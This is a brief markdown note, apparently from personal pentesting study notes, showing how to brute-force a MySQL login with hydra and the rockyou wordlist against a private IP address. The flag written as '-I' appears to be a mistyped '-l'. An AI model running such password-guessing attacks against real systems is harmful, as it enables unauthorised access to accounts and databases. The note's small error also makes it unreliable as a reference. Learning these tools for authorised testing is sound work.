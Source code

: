 
# In order to crack a password user using hydra you will need to have the user and them use the next parameter 

> hydra -I username -P /usr/share/wordlists/rockyou.txt mysql://10.0.0.203

As you can see l use the name of the protocol that l want to attack at the end follow by the ip of the target machine.